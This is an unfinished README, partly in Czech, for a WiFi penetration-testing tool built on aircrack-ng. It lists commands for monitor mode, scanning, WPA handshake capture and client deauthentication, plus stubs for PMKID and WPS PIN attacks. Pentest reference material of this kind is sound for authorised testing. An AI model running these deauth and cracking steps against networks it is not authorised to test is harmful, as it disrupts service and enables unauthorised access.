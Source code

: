 # WiFighter
Easy-to-use WiFI pen-testing tool for Debian build on aircrack-ng written in python and bash

## Dependecies

```c
apt install -y aircrack-ng hcxdumptool hcxpcapngtool hashcat
```



## WiFi Scan & Select
```python
  import pywifi, scapy
```



## Threat Hunt
```python
  import pywifi, scapy
```



## Attack mode

### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
airmon-ng start <INTERFACE>
```

Set interface to managed
```c
airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
airodump-ng --band a <ESSID> <INTERFACE>mon
```

Listen for handshake of specified AP
```c
airodump-ng -c <CHANNEL> -b <BSSID> -w OUTPUT_PATH <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```



### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. WPS

**Reaver or Bully ??**
- Online WPS PIN Brute Force

**Pixie Dust**
- Offline WPS PIN crack
- Není to brute force (rychlejší)
- Využívá slabé kryptografie PINu (né každý router je náchyloý)




